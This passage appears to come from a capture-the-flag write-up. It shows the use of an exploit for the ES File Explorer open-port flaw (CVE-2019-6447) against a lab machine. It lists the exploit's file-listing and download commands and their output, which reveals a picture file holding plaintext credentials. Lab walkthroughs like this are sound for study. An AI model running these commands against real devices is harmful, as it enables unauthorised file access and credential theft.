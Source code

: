 Let's exploit the vulnerability we can use these commands for the exploit:
```bash
listFiles         : List all Files.
listPics          : List all Pictures.
listVideos        : List all videos.
listAudios        : List all audios.
listApps          : List Applications installed.
listAppsSystem    : List System apps.
listAppsPhone     : List Communication related apps.
listAppsSdcard    : List apps on the SDCard.
listAppsAll       : List all Application.
getFile           : Download a file.
getDeviceInfo     : Get device info.
```

We will get successful output from the exploit.
```bash 
➜  python3 exploit.py getDeviceInfo 10.10.10.247                          

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721

```

When we use `listPics` command, there is an interesting file that is `creds.jpg` that contains plain username and password.
```bash
➜  python3 exploit.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)

```
